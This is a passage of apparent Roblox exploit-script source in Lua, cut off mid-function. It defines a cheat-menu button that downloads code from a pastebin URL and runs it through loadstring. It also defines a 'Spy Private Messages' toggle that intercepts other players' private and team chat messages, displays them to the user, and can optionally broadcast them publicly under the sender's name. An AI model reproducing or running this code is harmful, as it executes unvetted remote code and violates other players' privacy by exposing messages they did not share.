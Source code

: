MainTab:CreateButton({
    Name = "Dex Explorer",
    Callback = function()
        loadstring(game:HttpGet("https://pastebin.com/raw/Dq7x5HqJ"))()
        end
})

MainTab:CreateToggle({
    Name = "Spy Private Messages",
    Default = false,
    Callback = function(value)
        enabled = value --chat "/spy" to toggle!
        spyOnMyself = true --if true will check your messages too
        public = false --if true will chat the logs publicly (fun, risky)
        publicItalics = true --if true will use /me to stand out
        privateProperties = { --customize private logs
	Color = Color3.fromRGB(0,255,255); 
	Font = Enum.Font.SourceSansBold;
	TextSize = 20;
}

        local StarterGui = game:GetService("StarterGui")
        local Players = game:GetService("Players")
        local player = Players.LocalPlayer or Players:GetPropertyChangedSignal("LocalPlayer"):Wait() or Players.LocalPlayer
        local saymsg = game:GetService("ReplicatedStorage"):WaitForChild("DefaultChatSystemChatEvents"):WaitForChild("SayMessageRequest")
        local getmsg = game:GetService("ReplicatedStorage"):WaitForChild("DefaultChatSystemChatEvents"):WaitForChild("OnMessageDoneFiltering")
        local instance = (_G.chatSpyInstance or 0) + 1
        _G.chatSpyInstance = instance

        local function onChatted(p, msg)
            if _G.chatSpyInstance == instance then
                if p == player and msg:lower():sub(1, 4) == "/spy" then
                    enabled = not enabled
                    wait(0.3)
                    privateProperties.Text = "[SPY " .. (enabled and "EN" or "DIS") .. "ABLED]"
                    StarterGui:SetCore("ChatMakeSystemMessage", privateProperties)
                elseif enabled and (spyOnMyself == true or p ~= player) then
                    msg = msg:gsub("[\n\r]", ''):gsub("\t", ' '):gsub("[ ]+", ' ')
                    local hidden = true
                    local conn = getmsg.OnClientEvent:Connect(function(packet, channel)
                        if packet.SpeakerUserId == p.UserId and packet.Message == msg:sub(#msg - #packet.Message + 1) and (channel == "All" or (channel == "Team" and public == false and Players[packet.FromSpeaker].Team == player.Team)) then
                            hidden = false
                        end
                    end)
                    wait(1)
                    conn:Disconnect()
                    if hidden and enabled then
                        if public then
                            saymsg:FireServer((publicItalics and "/me " or '') .. "[SPY] [" .. p.Name .. "]: " .. msg, "All")
                        else
                            privateProperties.Text = "[SPY] [" .. p.Name .. "]: " .. msg
                            StarterGui:SetCore("ChatMakeSystemMessage", privateProperties)
                        end
                    end
                end
            end
        end
